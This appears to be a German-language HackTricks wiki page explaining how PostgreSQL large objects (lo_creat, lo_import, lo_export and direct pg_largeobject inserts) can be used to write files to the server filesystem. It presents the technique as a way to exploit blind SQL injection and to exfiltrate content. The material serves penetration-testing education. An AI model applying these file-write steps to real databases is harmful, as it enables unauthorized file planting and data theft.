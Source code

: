 {% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

### PostgreSQL Große Objekte

PostgreSQL bietet eine Struktur, die als **große Objekte** bekannt ist, die über die `pg_largeobject`-Tabelle zugänglich ist und zum Speichern großer Datentypen, wie Bilder oder PDF-Dokumente, konzipiert wurde. Dieser Ansatz ist vorteilhaft gegenüber der `COPY TO`-Funktion, da er die **Exportation von Daten zurück ins Dateisystem** ermöglicht und sicherstellt, dass eine exakte Kopie der Originaldatei erhalten bleibt.

Um **eine vollständige Datei** innerhalb dieser Tabelle zu speichern, muss ein Objekt in der `pg_largeobject`-Tabelle erstellt werden (identifiziert durch eine LOID), gefolgt von der Einfügung von Datenchunks, die jeweils 2KB groß sind, in dieses Objekt. Es ist entscheidend, dass diese Chunks genau 2KB groß sind (mit der möglichen Ausnahme des letzten Chunks), um sicherzustellen, dass die Exportfunktion korrekt funktioniert.

Um Ihre **binären Daten** in 2KB-Chunks zu unterteilen, können die folgenden Befehle ausgeführt werden:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Um jede Datei in Base64 oder Hex zu kodieren, können die folgenden Befehle verwendet werden:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Wichtig**: Bei der Automatisierung dieses Prozesses sicherstellen, dass 2KB große Blöcke von Klartext-Bytes gesendet werden. Hexadezimal codierte Dateien benötigen aufgrund der Verdopplung der Größe 4KB Daten pro Block, während Base64 codierte Dateien der Formel `ceil(n / 3) * 4` folgen.

Die Inhalte der großen Objekte können zu Debugging-Zwecken mit folgendem Befehl angezeigt werden:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Verwendung von `lo_creat` & Base64

Um binäre Daten zu speichern, wird zuerst ein LOID erstellt:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
In Situationen, die präzise Kontrolle erfordern, wie zum Beispiel beim Ausnutzen einer Blind SQL Injection, wird `lo_create` bevorzugt, um eine feste LOID anzugeben.

Datenchunks können dann wie folgt eingefügt werden:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Um das große Objekt nach der Verwendung zu exportieren und möglicherweise zu löschen:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Verwendung von `lo_import` & Hex

Die Funktion `lo_import` kann verwendet werden, um ein LOID für ein großes Objekt zu erstellen und anzugeben:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Nach der Objekterstellung werden die Daten seitenweise eingefügt, wobei sichergestellt wird, dass jeder Block 2KB nicht überschreitet:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Um den Prozess abzuschließen, werden die Daten exportiert und das große Objekt wird gelöscht:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Einschränkungen

Es wird angemerkt, dass **große Objekte ACLs** (Access Control Lists) haben können, die den Zugriff selbst auf von Ihrem Benutzer erstellte Objekte einschränken. Ältere Objekte mit großzügigen ACLs könnten jedoch weiterhin für die Inhaltsexfiltration zugänglich sein.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
